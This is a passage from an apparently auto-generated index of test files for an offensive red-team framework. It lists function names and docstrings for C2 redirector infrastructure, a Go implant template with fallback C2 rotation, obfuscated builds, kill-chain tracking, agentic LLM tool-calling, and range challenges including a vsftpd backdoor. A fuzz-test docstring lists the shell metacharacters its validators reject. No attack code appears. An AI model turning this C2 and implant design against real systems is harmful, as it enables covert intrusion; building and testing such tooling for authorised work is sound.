- `test_collect_context_uses_fallbacks_on_failure` (line 286) `def test_collect_context_uses_fallbacks_on_failure(self)`
- `test_enabled_flag_accepts_strings_and_bools` (line 304) `def test_enabled_flag_accepts_strings_and_bools(self)`
- `test_install_registers_precmd_hook` (line 325) `def test_install_registers_precmd_hook(self)`
- `setUp` (line 353) `def setUp(self)`
- `tearDown` (line 359) `def tearDown(self)`
- `test_payload_target_picks_first_non_empty_key` (line 362) `def test_payload_target_picks_first_non_empty_key(self)`
- `test_payload_target_falls_back_to_default` (line 366) `def test_payload_target_falls_back_to_default(self)`
- `test_phase_prefers_world_model_over_payload` (line 370) `def test_phase_prefers_world_model_over_payload(self)`
- `test_finding_prefers_credentials_over_notes` (line 375) `def test_finding_prefers_credentials_over_notes(self)`
- `test_suggestion_uses_advisor_when_available` (line 381) `def test_suggestion_uses_advisor_when_available(self)`
- `test_suggestion_falls_back_when_advisor_raises` (line 386) `def test_suggestion_falls_back_when_advisor_raises(self)`
- `test_factory_returns_manager_with_four_sources` (line 398) `def test_factory_returns_manager_with_four_sources(self)`
- `setUp` (line 407) `def setUp(self)`
- `test_empty_goal_is_rejected` (line 411) `def test_empty_goal_is_rejected(self)`
- `test_unknown_mode_is_rejected` (line 415) `def test_unknown_mode_is_rejected(self)`
- `test_long_goal_is_bounded` (line 419) `def test_long_goal_is_bounded(self)`
- `test_defaults_are_applied` (line 424) `def test_defaults_are_applied(self)`
- `test_task_type_stays_empty_when_unset` (line 429) `def test_task_type_stays_empty_when_unset(self)`
- `test_numeric_fields_stay_zero_when_unset` (line 433) `def test_numeric_fields_stay_zero_when_unset(self)`
- `test_metadata_carries_request_id` (line 438) `def test_metadata_carries_request_id(self)`
- `test_duplicate_name_raises` (line 447) `def test_duplicate_name_raises(self)`
- `test_empty_name_raises` (line 452) `def test_empty_name_raises(self)`
- `test_order_is_preserved` (line 465) `def test_order_is_preserved(self)`
- `setUp` (line 480) `def setUp(self)`
- `test_explicit_mode_overrides_router` (line 492) `def test_explicit_mode_overrides_router(self)`
- `test_auto_picks_daemon_when_target_present` (line 496) `def test_auto_picks_daemon_when_target_present(self)`
- `test_auto_picks_hive_on_swarm_keyword` (line 500) `def test_auto_picks_hive_on_swarm_keyword(self)`
- `test_auto_picks_swan_on_exploit_keyword` (line 504) `def test_auto_picks_swan_on_exploit_keyword(self)`
- `test_unavailable_explicit_mode_returns_none` (line 508) `def test_unavailable_explicit_mode_returns_none(self)`
- `setUp` (line 521) `def setUp(self)`
- `tearDown` (line 527) `def tearDown(self)`
- `test_emit_appends_jsonline` (line 530) `def test_emit_appends_jsonline(self)`
- `test_emit_rejects_oversize_event` (line 537) `def test_emit_rejects_oversize_event(self)`
- `test_emit_rejects_non_serialisable` (line 541) `def test_emit_rejects_non_serialisable(self)`
- `test_file_permissions_are_restrictive` (line 544) `def test_file_permissions_are_restrictive(self)`
- `setUp` (line 553) `def setUp(self)`
- `tearDown` (line 558) `def tearDown(self)`
- `_goal` (line 561) `def _goal(self)`
- `test_daemon_requires_target` (line 565) `def test_daemon_requires_target(self)`
- `test_daemon_normalises_dict_result` (line 570) `def test_daemon_normalises_dict_result(self)`
- `test_hive_runs_full_lifecycle` (line 577) `def test_hive_runs_full_lifecycle(self)`
- `test_swan_normalises_result_object` (line 584) `def test_swan_normalises_result_object(self)`
- `test_backend_returns_error_when_engine_raises` (line 590) `def test_backend_returns_error_when_engine_raises(self)`
- `setUp` (line 604) `def setUp(self)`
- `tearDown` (line 608) `def tearDown(self)`
- `_events` (line 611) `def _events(self)`
- `test_validation_error_returns_invalid_result` (line 617) `def test_validation_error_returns_invalid_result(self)`
- `test_unavailable_backend_returns_unavailable_result` (line 623) `def test_unavailable_backend_returns_unavailable_result(self)`
- `test_auto_routes_with_target_to_daemon` (line 628) `def test_auto_routes_with_target_to_daemon(self)`
- `test_event_is_emitted_per_execution` (line 634) `def test_event_is_emitted_per_execution(self)`
- `test_result_to_dict_is_json_serialisable` (line 642) `def test_result_to_dict_is_json_serialisable(self)`
- `test_utils_has_no_class_config` (line 658) `def test_utils_has_no_class_config(self)`
- `test_core_config_is_canonical` (line 664) `def test_core_config_is_canonical(self)`
- `_discover` (line 683) `def _discover(self)`
- `test_orchestration_set_is_active` (line 691) `def test_orchestration_set_is_active(self)`
- `test_orchestration_set_exposes_required_verbs` (line 697) `def test_orchestration_set_exposes_required_verbs(self)`
- `test_orchestration_set_phase_and_category_set` (line 701) `def test_orchestration_set_phase_and_category_set(self)`
- `test_every_class_in_new_modules_has_docstring` (line 709) `def test_every_class_in_new_modules_has_docstring(self)`
- `test_modules_avoid_emoji_in_source` (line 724) `def test_modules_avoid_emoji_in_source(self)`
- `test_suggestion_fallback_when_factory_none` (line 752) `def test_suggestion_fallback_when_factory_none(self)`
- `test_graph_file_is_valid_json_when_present` (line 758) `def test_graph_file_is_valid_json_when_present(self)`
- `test_command_set_resolves_shell_via_cmd_property` (line 781) `def test_command_set_resolves_shell_via_cmd_property(self)`
- `test_status_bar_install_registers_precmd_hook_on_real_cmd2` (line 795) `def test_status_bar_install_registers_precmd_hook_on_real_cmd2(self)`
- `test_orchestration_commandset_finds_managers_on_bound_shell` (line 818) `def test_orchestration_commandset_finds_managers_on_bound_shell(self)`
- `test_default_prompt_join_is_newline` (line 861) `def test_default_prompt_join_is_newline(self)`
- `test_command_hint_source_returns_kill_chain_verb` (line 866) `def test_command_hint_source_returns_kill_chain_verb(self)`
- `test_command_hint_source_falls_back_when_provider_raises` (line 892) `def test_command_hint_source_falls_back_when_provider_raises(self)`
- `test_command_hints_helper_returns_phase_priority_verbs` (line 913) `def test_command_hints_helper_returns_phase_priority_verbs(self)`
- `test_daemon_falls_back_to_payload_rhost` (line 921) `def test_daemon_falls_back_to_payload_rhost(self)`
- `test_router_picks_daemon_when_only_payload_supplies_target` (line 946) `def test_router_picks_daemon_when_only_payload_supplies_target(self)`
- `test_router_ignores_unset_task_type_for_keyword_scoring` (line 970) `def test_router_ignores_unset_task_type_for_keyword_scoring(self)`
- `test_build_default_orchestrator_registers_three_backends` (line 999) `def test_build_default_orchestrator_registers_three_backends(self)`
- `test_build_default_manager_does_not_touch_filesystem` (line 1003) `def test_build_default_manager_does_not_touch_filesystem(self)`
- `collect` (line 290) `def collect(self)`
- `__init__` (line 309) `def __init__(self, value)`
- `collect` (line 312) `def collect(self)`
- `__init__` (line 330) `def __init__(self, value)`
- `collect` (line 333) `def collect(self)`
- `suggest_next` (line 388) `def suggest_next(self)`
- `available` (line 456) `def available(self)`
- `run` (line 459) `def run(self, goal)`
- `run` (line 592) `def run(self)`
- `run` (line 935) `def run(self_inner)`

#### `test_infra_disposable.py`
**Path:** `tests/test_infra_disposable.py`
**File Doc:** *TDD unit tests for the disposable infrastructure contracts.  Covers ``cli.commands.infra``, ``modules.c2_builder`` fallback helpers, ``modules.professional_report`` loot/history/summary, ``modules.redteam_gym`` range challenges, ``cli.commands.lab`` range profiles, and the ``c2_fallback_urls`` payload schema slot.*

**Functions:**
- `test_parse_tunnel_urls_dedupes` (line 16) `def test_parse_tunnel_urls_dedupes()` - *Tunnel log parsing dedupes quick-tunnel URLs preserving order.*
- `test_parse_tunnel_urls_empty` (line 31) `def test_parse_tunnel_urls_empty()` - *Logs without tunnel URLs yield an empty list.*
- `test_parse_tunnel_urls_rejects_non_cloudflare` (line 38) `def test_parse_tunnel_urls_rejects_non_cloudflare()` - *Non-Cloudflare URLs never enter the redirector inventory.*
- `test_valid_providers_exact_allowlist` (line 45) `def test_valid_providers_exact_allowlist()` - *Provider allowlist is exactly the four supported targets.*
- `test_infra_phases_as_c2` (line 52) `def test_infra_phases_as_c2()` - *Infra commands belong to the C2 kill-chain phase.*
- `test_go_string_list_formats_slice` (line 60) `def test_go_string_list_formats_slice()` - *Fallback URLs render as a Go string slice body.*
- `test_resolve_fallback_urls_param_string` (line 70) `def test_resolve_fallback_urls_param_string()` - *Comma-separated param values split into fallback URLs.*
- `test_resolve_fallback_urls_param_list` (line 78) `def test_resolve_fallback_urls_param_list()` - *List param values pass through stripped.*
- `test_implant_template_has_fallback_helpers` (line 86) `def test_implant_template_has_fallback_helpers()` - *Go beacon template carries multi-C2 fallback rotation.*
- `test_redirector_caddy_filters_paths` (line 95) `def test_redirector_caddy_filters_paths()` - *Redirector Caddyfile only forwards C2 paths and 404s the rest.*
- `test_redirector_compose_routes_to_caddy` (line 103) `def test_redirector_compose_routes_to_caddy()` - *Redirector compose chains cloudflared through the Caddy filter.*
- `test_c2_compose_terminates_tls` (line 111) `def test_c2_compose_terminates_tls()` - *Local C2 stack exposes TLS via Caddy with Let's Encrypt storage.*
- `test_terraform_firewall_restricts_c2_port` (line 118) `def test_terraform_firewall_restricts_c2_port()` - *Terraform firewall pins port 4444 to the redirector droplet.*
- `test_report_collects_history_and_loot` (line 125) `def test_report_collects_history_and_loot()` - *Report generator collects history lines and loot counters.*
- `test_report_template_summary_mentions_remediation_windows` (line 137) `def test_report_template_summary_mentions_remediation_windows()` - *Template executive summary states 30-day remediation priority.*
- `test_report_ai_failure_falls_back_to_template` (line 150) `def test_report_ai_failure_falls_back_to_template()` - *LLM backend failure never blocks reporting; template is returned.*
- `test_gym_range_challenges_registered` (line 161) `def test_gym_range_challenges_registered()` - *Range challenges exist for implant, lateral, and exfil practice.*
- `test_lab_range_profiles_registered` (line 170) `def test_lab_range_profiles_registered()` - *Lab exposes the ad-mini cyber range profile with compose file.*
- `test_range_compose_uses_valid_images` (line 179) `def test_range_compose_uses_valid_images()` - *Range compose references verified images (no fictional repositories).*
- `test_range_workstation_stays_alive` (line 189) `def test_range_workstation_stays_alive()` - *ws01 keeps a foreground shell so boot services stay reachable.*
- `test_range_dc_secret_wired` (line 198) `def test_range_dc_secret_wired()` - *DC consumes the per-deployment admin secret the CLI generates.*
- `test_range_secret_generator_roundtrip` (line 207) `def test_range_secret_generator_roundtrip(tmp_path)` - *Secret helper creates a 0600 file once and reuses it after.*
- `test_parse_go_version_triples` (line 217) `def test_parse_go_version_triples()` - *Go version strings parse into comparable triples.*
- `test_compile_commands_route_through_shell` (line 228) `def test_compile_commands_route_through_shell()` - *Every compile command starts with cd so the dispatcher uses bash.

A bare ``CGO_ENABLED=0`` prefix would be argv-split and crash with
``FileNotFoundError: 'CGO_ENABLED=0'``.*
- `test_garble_mismatch_detected` (line 258) `def test_garble_mismatch_detected()` - *Stale garble (built with older Go) is detected before compiling.*
- `test_redirector_stale_threshold` (line 272) `def test_redirector_stale_threshold()` - *Stale redirector threshold is exactly 24 hours.*
- `test_format_timeline_event_summarizes_payload` (line 279) `def test_format_timeline_event_summarizes_payload()` - *Timeline events render command payloads instead of raw dicts.*
- `test_mitre_matrix_keeps_unknown_tactics` (line 298) `def test_mitre_matrix_keeps_unknown_tactics()` - *Techniques without a known tactic still render in the matrix.*
- `test_range_backdoor_shell_published` (line 309) `def test_range_backdoor_shell_published()` - *vsftpd backdoor shell port is reachable from the host.*
- `test_range_verify_confirms_root` (line 318) `def test_range_verify_confirms_root(capsys)` - *Range verifier reports root only when the shell answers uid=0.*
- `test_range_verify_unknown_profile` (line 336) `def test_range_verify_unknown_profile(capsys)` - *Verifier rejects profiles without an exploit without raising.*
- `test_gym_range_next_steps` (line 344) `def test_gym_range_next_steps()` - *Range challenges point at range commands, others stay classic.*
- `test_find_cloudflared_pids` (line 358) `def test_find_cloudflared_pids()` - *ps parsing extracts tunnel PIDs and skips our own process.*
- `test_compose_down_missing_file` (line 374) `def test_compose_down_missing_file()` - *Teardown of a missing stack reports success without docker.*
- `test_payload_schema_has_fallback_slot` (line 381) `def test_payload_schema_has_fallback_slot()` - *Payload schema declares the c2_fallback_urls config slot.*

#### `test_input_fuzz.py`
**Path:** `tests/test_input_fuzz.py`
**File Doc:** *Fuzzing for input validators and rating boundaries.  Deterministic (seeded) generative tests proving two contracts hold for arbitrary hostile input:  1. Validators never raise: ``check_rhost`` / ``check_lhost`` / ``check_port`` return ``True``/``False`` for anything, including non-strings, huge inputs, and unicode. 2. Validators never accept shell metacharacters: anything they return ``True`` for is free of ``;&|`$(){}!><*?~#'\"`` and newlines, and any accepted port is within 1-65535.  Plus boundary fuzzing for ``rate_plugin`` (non-integer and out-of-range stars must raise, never write).*

**Functions:**
- `_random_host` (line 80) `def _random_host(rng)`
- `_host_inputs` (line 85) `def _host_inputs()`
- `_port_inputs` (line 93) `def _port_inputs()`
- `test_host_validators_never_raise` (line 103) `def test_host_validators_never_raise(value, capsys)`
- `test_accepted_hosts_have_no_shell_metacharacters` (line 110) `def test_accepted_hosts_have_no_shell_metacharacters(value, capsys)`
- `test_port_validator_never_raise_and_bounded` (line 118) `def test_port_validator_never_raise_and_bounded(value, capsys)`
- `test_known_good_values_accepted` (line 126) `def test_known_good_values_accepted(capsys)`
- `test_rate_plugin_rejects_non_integer_stars` (line 139) `def test_rate_plugin_rejects_non_integer_stars(tmp_path, stars)`

#### `test_intel_fusion.py`
**Path:** `tests/test_intel_fusion.py`
**File Doc:** *Intel fusion + LLM defaults regression tests.*

**Functions:**
- `_fixture_sessions` (line 20) `def _fixture_sessions(tmp_path)` - *Write a minimal campaign: world model, lazy task, objective, log.*
- `test_node_id_deterministic` (line 43) `def test_node_id_deterministic()` - *Same kind+value always yields the same id.*
- `test_build_fuses_all_sources` (line 49) `def test_build_fuses_all_sources(tmp_path)` - *World, lazy task, objective and logs fuse into one C2 graph.*
- `test_layouts_circular_spherical_force` (line 58) `def test_layouts_circular_spherical_force(tmp_path)` - *Circular/spherical pin positions; force modes stay free.*
- `test_summary_scores_and_suggests` (line 69) `def test_summary_scores_and_suggests(tmp_path)` - *Summary ranks the exposed host and suggests probe intents.*
- `test_llm_defaults_seeded` (line 78) `def test_llm_defaults_seeded()` - *Groq, ollama and agentic legs exist with failover priority order.*
- `test_factory_complete_rejects_empty` (line 88) `def test_factory_complete_rejects_empty()` - *Empty prompt is empty out; dead legs raise for failover.*

#### `test_intelligence_engine.py`
**Path:** `tests/test_intelligence_engine.py`
**File Doc:** *Tests for IntelligenceEngine — collection, analysis, intelligence, dissemination.*

**Classes:**
- `TestCollection` (line 45) `class TestCollection`
- `TestAnalysis` (line 108) `class TestAnalysis`
- `TestIntelligenceProduction` (line 159) `class TestIntelligenceProduction`
- `TestCounterIntelligence` (line 178) `class TestCounterIntelligence`
- `TestFullCycle` (line 198) `class TestFullCycle`
- `TestPlaceholderFiltering` (line 215) `class TestPlaceholderFiltering`

**Functions:**
- `engine` (line 19) `def engine()`
- `nmap_xml` (line 24) `def nmap_xml(tmp_path)`

**Methods:**
- `test_collect_from_scan_services` (line 46) `def test_collect_from_scan_services(self, engine, nmap_xml)`
- `test_collect_from_scan_os` (line 56) `def test_collect_from_scan_os(self, engine, nmap_xml)`
- `test_collect_from_scan_domain` (line 63) `def test_collect_from_scan_domain(self, engine, nmap_xml)`
- `test_collect_from_scan_hosts` (line 70) `def test_collect_from_scan_hosts(self, engine, nmap_xml)`
- `test_collect_from_scan_missing_xml` (line 76) `def test_collect_from_scan_missing_xml(self, engine)`
- `test_collect_from_tool_parses_creds` (line 81) `def test_collect_from_tool_parses_creds(self, engine)`
- `test_collect_from_tool_filters_placeholders` (line 86) `def test_collect_from_tool_filters_placeholders(self, engine)`
- `test_collect_from_factstore` (line 91) `def test_collect_from_factstore(self, engine, tmp_path)`
- `test_analyze_produces_assessments` (line 109) `def test_analyze_produces_assessments(self, engine, nmap_xml)`
- `test_analyze_maps_apache_cve` (line 115) `def test_analyze_maps_apache_cve(self, engine)`
- `test_analyze_correlates_creds_to_hosts` (line 131) `def test_analyze_correlates_creds_to_hosts(self, engine)`
- `test_analyze_ranks_targets` (line 143) `def test_analyze_ranks_targets(self, engine)`
- `test_produce_intelligence_grades_assessments` (line 160) `def test_produce_intelligence_grades_assessments(self, engine)`
- `test_credential_exposure_detected` (line 179) `def test_credential_exposure_detected(self, engine)`
- `test_high_scan_volume_detected` (line 188) `def test_high_scan_volume_detected(self, engine)`
- `test_run_full_cycle_returns_summary` (line 199) `def test_run_full_cycle_returns_summary(self, engine, nmap_xml)`
- `test_get_intel_report_structured` (line 205) `def test_get_intel_report_structured(self, engine, nmap_xml)`
- `test_is_placeholder_detects_change_me` (line 216) `def test_is_placeholder_detects_change_me(self, engine)`
- `test_is_placeholder_rejects_real_values` (line 220) `def test_is_placeholder_rejects_real_values(self, engine)`

#### `test_journal.py`
**Path:** `tests/test_journal.py`
**File Doc:** *Tests for the GitHub Discussions engineering journal.  The journal drives ``gh`` through an injected runner, so these tests exercise the GraphQL wiring and the parsing without touching the network.*

**Classes:**
- `FakeRunner` (line 16) `class FakeRunner` - *Return canned GraphQL payloads keyed by a query fragment.*

**Functions:**
- `_success_responses` (line 34) `def _success_responses()`
- `test_config_from_remote_slug` (line 51) `def test_config_from_remote_slug()` - *A repository slug resolves without touching git.*
- `test_config_rejects_bare_name` (line 58) `def test_config_rejects_bare_name()` - *A slug without a separator is rejected.*
- `test_post_entry_uses_resolved_ids` (line 64) `def test_post_entry_uses_resolved_ids()` - *The create mutation receives the repository and category ids.*
- `test_entries_returns_nodes` (line 73) `def test_entries_returns_nodes()` - *Reading returns the discussion nodes.*
- `test_missing_category_raises` (line 81) `def test_missing_category_raises()` - *A category that is not present raises instead of silently posting.*
- `test_graphql_errors_raise` (line 93) `def test_graphql_errors_raise()` - *A GraphQL error payload raises a JournalError.*

**Methods:**
- `__init__` (line 19) `def __init__(self, responses)` - *Store the responses keyed by a fragment of the query string.*
- `__call__` (line 24) `def __call__(self, args)` - *Record the call and return the matching payload as JSON.*

#### `test_killchain.py`
**Path:** `tests/test_killchain.py`
**File Doc:** *Tests for cli/killchain.py.  The suite verifies that kill-chain progress is derived correctly from the daemon event stream: phases the engagement passed through are marked done, the current phase is active, later phases stay pending, and per-phase activity and reward are accumulated. It also pins the world-model fallback used when no events are available.*

**Functions:**
- `_states` (line 28) `def _states(progress)`
- `test_empty_events_all_pending_without_world` (line 32) `def test_empty_events_all_pending_without_world()`
- `test_current_phase_from_step_events` (line 38) `def test_current_phase_from_step_events()`
- `test_phase_advance_event_sets_current` (line 49) `def test_phase_advance_event_sets_current()`
- `test_activity_and_reward_accumulate` (line 62) `def test_activity_and_reward_accumulate()`
- `test_world_phase_fallback_when_no_events` (line 75) `def test_world_phase_fallback_when_no_events()`
- `test_explicit_completed_phases_respected` (line 81) `def test_explicit_completed_phases_respected()`
- `test_unknown_phase_in_event_is_ignored` (line 86) `def test_unknown_phase_in_event_is_ignored()`
- `test_non_dict_payload_is_tolerated` (line 92) `def test_non_dict_payload_is_tolerated()`

#### `test_killchain_auto_refresh.py`
**Path:** `tests/test_killchain_auto_refresh.py`
**File Doc:** *BDD-style tests for the periodic kill-chain auto-refresh in the tips engine.  Scenario: the unified kill-chain progress is re-surfaced after commands, both on a periodic cadence and whenever the active phase advances.*

**Classes:**
- `TestPeriodicAutoRefresh` (line 22) `class TestPeriodicAutoRefresh`

**Functions:**
- `_engine` (line 12) `def _engine()`

**Methods:**
- `test_shows_immediately_on_phase_change` (line 23) `def test_shows_immediately_on_phase_change(self)`
- `test_shows_on_cadence_without_phase_change` (line 31) `def test_shows_on_cadence_without_phase_change(self)`
- `test_cadence_below_every_surpresses` (line 41) `def test_cadence_below_every_surpresses(self)`
- `test_phase_change_beats_periodic_cadence` (line 50) `def test_phase_change_beats_periodic_cadence(self)`
- `test_disabled_engine_never_shows` (line 59) `def test_disabled_engine_never_shows(self)`
- `test_zero_every_and_no_phase_change_never_shows` (line 67) `def test_zero_every_and_no_phase_change_never_shows(self)`

#### `test_killchain_gap_signal.py`
**Path:** `tests/test_killchain_gap_signal.py`
**File Doc:** *Tests for :class:`cli.recommendation_signals.KillchainGapSignal`.  Covers gap detection rules: - EXPLOITED host without privesc - OWNED host without credentials - Scan exists without enumeration - Credentials exist without lateral movement*

**Classes:**
- `TestKillchainGapSignalConstruction` (line 32) `class TestKillchainGapSignalConstruction`
- `TestGapExploitedNoPrivesc` (line 38) `class TestGapExploitedNoPrivesc`
- `TestGapOwnedNoCreds` (line 82) `class TestGapOwnedNoCreds`
- `TestGapScanNoEnum` (line 110) `class TestGapScanNoEnum`
- `TestGapCredsNoLateral` (line 141) `class TestGapCredsNoLateral`
- `TestKillchainGapSignalIntegration` (line 169) `class TestKillchainGapSignalIntegration`

**Functions:**
- `sessions_dir` (line 23) `def sessions_dir()`
- `_write_world_model` (line 28) `def _write_world_model(sessions_dir, data)`

**Methods:**
- `test_name_is_gap_source` (line 33) `def test_name_is_gap_source(self)`
- `test_exploited_linux_recommends_linpeas` (line 39) `def test_exploited_linux_recommends_linpeas(self, sessions_dir)`
- `test_exploited_windows_recommends_winpeas` (line 51) `def test_exploited_windows_recommends_winpeas(self, sessions_dir)`
- `test_unscanned_host_no_proposals` (line 63) `def test_unscanned_host_no_proposals(self, sessions_dir)`
- `test_no_world_model_returns_empty` (line 75) `def test_no_world_model_returns_empty(self, sessions_dir)`
- `test_owned_no_credentials_recommends_lazydump` (line 83) `def test_owned_no_credentials_recommends_lazydump(self, sessions_dir)`
- `test_owned_with_credentials_no_proposals` (line 96) `def test_owned_with_credentials_no_proposals(self, sessions_dir)`
- `test_scanned_no_enum_recommends_gobuster` (line 111) `def test_scanned_no_enum_recommends_gobuster(self, sessions_dir)`
- `test_scanned_with_enum_recent_no_proposals` (line 123) `def test_scanned_with_enum_recent_no_proposals(self, sessions_dir)`
- `test_credentials_no_lateral_recommends_crackmapexec` (line 142) `def test_credentials_no_lateral_recommends_crackmapexec(self, sessions_dir)`
- `test_no_credentials_no_lateral_proposals` (line 155) `def test_no_credentials_no_lateral_proposals(self, sessions_dir)`
- `test_multiple_gaps_detected_simultaneously` (line 170) `def test_multiple_gaps_detected_simultaneously(self, sessions_dir)`

#### `test_killchain_snapshot.py`
**Path:** `tests/test_killchain_snapshot.py`
**File Doc:** *BDD-style tests for the unified kill-chain snapshot contract.  Scenario: a single, render-agnostic snapshot drives every surface (CLI, Flask dashboard, GUI2, API) from one source of truth, and reads state transparently whether persisted plaintext or auto-encrypted at rest.*

**Classes:**
- `TestKillChainSnapshot` (line 52) `class TestKillChainSnapshot`
- `TestEncryptedStateTransparency` (line 102) `class TestEncryptedStateTransparency`

**Functions:**
- `_seed_snapshot` (line 17) `def _seed_snapshot(path, phase, completed, current)`
- `_states` (line 37) `def _states(snapshot)`
- `_encrypt_at` (line 41) `def _encrypt_at(path, password, salt)` - *Encrypt a plain JSON file into an in-place ``.encrypted`` sibling.*

**Methods:**
- `test_empty_snapshot_defaults_to_recon` (line 53) `def test_empty_snapshot_defaults_to_recon(self, tmp_path)`
- `test_snapshot_reflects_explicit_phase_and_completed` (line 64) `def test_snapshot_reflects_explicit_phase_and_completed(self, tmp_path)`
- `test_snapshot_is_json_serialisable` (line 80) `def test_snapshot_is_json_serialisable(self, tmp_path)`
- `test_advance_then_snapshot_is_consistent` (line 90) `def test_advance_then_snapshot_is_consistent(self, tmp_path)`
- `test_read_state_dict_decrypts_at_rest` (line 103) `def test_read_state_dict_decrypts_at_rest(self, tmp_path, monkeypatch)`
- `test_missing_file_reads_empty` (line 123) `def test_missing_file_reads_empty(self, tmp_path)`
- `test_encrypted_without_password_reads_empty` (line 131) `def test_encrypted_without_password_reads_empty(self, tmp_path, monkeypatch)`

#### `test_killchain_unified.py`
**Path:** `tests/test_killchain_unified.py`
**File Doc:** *Tests for unified killchain phase: read_phase, write_phase, phase mapping helpers.*

**Classes:**
- `TestPhaseMapping` (line 19) `class TestPhaseMapping`
- `TestWritePhaseWithWorldModel` (line 47) `class TestWritePhaseWithWorldModel` - *Integration test: write_phase advances WorldModel hosts.*

**Methods:**
- `test_engagement_phase_to_cli_maps_all` (line 20) `def test_engagement_phase_to_cli_maps_all(self)`
- `test_cli_phase_to_host_state_maps_correctly` (line 29) `def test_cli_phase_to_host_state_maps_correctly(self)`
- `test_phase_rank_returns_correct_index` (line 40) `def test_phase_rank_returns_correct_index(self)`
- `sessions_dir` (line 51) `def sessions_dir(self)`
- `test_write_phase_advances_hosts` (line 79) `def test_write_phase_advances_hosts(self, sessions_dir)`
- `test_write_phase_invalid_returns_false` (line 95) `def test_write_phase_invalid_returns_false(self, sessions_dir)`
- `test_write_phase_completed_phases_tracks_progress` (line 99) `def test_write_phase_completed_phases_tracks_progress(self, sessions_dir)`

#### `test_killchain_unified_v2.py`
**Path:** `tests/test_killchain_unified_v2.py`
**File Doc:** *Comprehensive tests for modules.killchain — the unified single source of truth.  Covers: - Config invariants (phase count, labels, colors, mappings). - Phase derivation from WorldModel host states and raw JSON overrides. - Phase advancement (atomic write, completed phases tracking, host advance). - Progress computation. - Edge cases: empty world model, invalid phases, overwritten files.*

**Classes:**
- `TestKillChainConfig` (line 31) `class TestKillChainConfig` - *Invariants on the centralised configuration.*
- `TestKillChainCurrentPhase` (line 103) `class TestKillChainCurrentPhase` - *Phase derivation from WorldModel and raw JSON fallback.*
- `TestKillChainAdvancePhase` (line 184) `class TestKillChainAdvancePhase` - *Atomic writes that advance the kill chain for all surfaces.*
- `TestKillChainGetProgress` (line 279) `class TestKillChainGetProgress` - *Status list generation for all UI renderers.*
- `TestKillChainHelpers` (line 347) `class TestKillChainHelpers` - *Static helpers and display helpers.*
- `TestPhaseStatusDataclass` (line 394) `class TestPhaseStatusDataclass` - *Behaviour-driven: PhaseStatus is used by every UI surface.*

**Methods:**
- `test_phases_is_8_tuple` (line 34) `def test_phases_is_8_tuple(self)`
- `test_phases_are_in_correct_kill_chain_order` (line 40) `def test_phases_are_in_correct_kill_chain_order(self)`
- `test_compact_phases_are_in_correct_order` (line 44) `def test_compact_phases_are_in_correct_order(self)`
- `test_all_phases_have_labels` (line 48) `def test_all_phases_have_labels(self)`
- `test_all_phases_have_colors` (line 53) `def test_all_phases_have_colors(self)`
- `test_all_phases_have_rich_colors` (line 58) `def test_all_phases_have_rich_colors(self)`
- `test_engagement_to_cli_covers_all_engagement_phases` (line 62) `def test_engagement_to_cli_covers_all_engagement_phases(self)`
- `test_cli_to_host_state_returns_expected` (line 70) `def test_cli_to_host_state_returns_expected(self)`
- `test_phase_index_valid_and_invalid` (line 80) `def test_phase_index_valid_and_invalid(self)`
- `test_is_valid_phase` (line 86) `def test_is_valid_phase(self)`
- `test_compact_phases_and_labels` (line 91) `def test_compact_phases_and_labels(self)`
- `test_world_model_path` (line 96) `def test_world_model_path(self)`
- `_reset_wm_singleton` (line 107) `def _reset_wm_singleton(self)`
- `test_returns_recon_when_no_world_model_exists` (line 118) `def test_returns_recon_when_no_world_model_exists(self)`
- `test_reads_from_world_model_host_state` (line 125) `def test_reads_from_world_model_host_state(self)`
- `test_raw_json_override_wins_when_higher_rank` (line 140) `def test_raw_json_override_wins_when_higher_rank(self)`
- `test_raw_json_override_ignored_when_lower_rank` (line 156) `def test_raw_json_override_ignored_when_lower_rank(self)`
- `test_falls_back_to_legacy_phase_key` (line 172) `def test_falls_back_to_legacy_phase_key(self)`
- `_reset_wm_singleton` (line 188) `def _reset_wm_singleton(self)`
- `test_advance_writes_current_phase_and_phase_keys` (line 199) `def test_advance_writes_current_phase_and_phase_keys(self)`
- `test_advance_tracks_completed_phases` (line 215) `def test_advance_tracks_completed_phases(self)`
- `test_advance_invalid_phase_returns_false` (line 233) `def test_advance_invalid_phase_returns_false(self)`
- `test_advance_advances_world_model_hosts` (line 243) `def test_advance_advances_world_model_hosts(self)`
- `test_advance_does_not_downgrade_cached_world_model_state` (line 260) `def test_advance_does_not_downgrade_cached_world_model_state(self)`
- `_reset_wm_singleton` (line 283) `def _reset_wm_singleton(self)`
- `test_all_pending_when_nothing_done` (line 294) `def test_all_pending_when_nothing_done(self)`
- `test_progress_reflects_completed_and_active` (line 307) `def test_progress_reflects_completed_and_active(self)`
- `test_progress_has_colors_and_labels` (line 331) `def test_progress_has_colors_and_labels(self)`
- `test_phases_for_display_returns_triples` (line 350) `def test_phases_for_display_returns_triples(self)`
- `test_compact_progress_returns_string` (line 360) `def test_compact_progress_returns_string(self)`
- `test_engagement_phase_to_cli_maps_all` (line 366) `def test_engagement_phase_to_cli_maps_all(self)`
- `test_cli_phase_to_host_state_maps_all` (line 375) `def test_cli_phase_to_host_state_maps_all(self)`
- `test_get_killchain_returns_class` (line 383) `def test_get_killchain_returns_class(self)`
- `test_phase_index_returns_correct` (line 387) `def test_phase_index_returns_correct(self)`
- `test_phase_status_is_immutable` (line 397) `def test_phase_status_is_immutable(self)`
- `test_phase_status_fields_match_config` (line 402) `def test_phase_status_fields_match_config(self)`

#### `test_lazy_agent.py`
**Path:** `tests/test_lazy_agent.py`
**File Doc:** *Agentic tool-calling: worker agent path, resume and main sessions.  The model is faked at the client boundary so these tests exercise the real AgentRunner tool loop, the guard-enforced tool executors and the conversation persistence without any network or API key.*

**Classes:**
- `_Completions` (line 23) `class _Completions` - *Scripted OpenAI-compatible completions endpoint.*
- `_Completions` (line 162) `class _Completions`

**Functions:**
- `_tool_call` (line 13) `def _tool_call(tool_id, name, arguments)`
- `_message` (line 19) `def _message(content, tool_calls)`
- `fake_model` (line 37) `def fake_model(script)` - *Build a raw backend shaped like GroqModel for AgentRunner.*
- `_sandbox` (line 43) `def _sandbox(tmp_path, monkeypatch)`
- `_worker` (line 50) `def _worker(loop, engine, task_id, graph)`
- `test_worker_agentic_tool_calling` (line 63) `def test_worker_agentic_tool_calling(tmp_path, monkeypatch)` - *BDD: the worker calls tools through the guard and persists facts.*
- `test_worker_agentic_resume_seeds_prior_turns` (line 104) `def test_worker_agentic_resume_seeds_prior_turns(tmp_path, monkeypatch)`
- `test_main_session_persists_and_resumes` (line 138) `def test_main_session_persists_and_resumes(tmp_path, monkeypatch)`
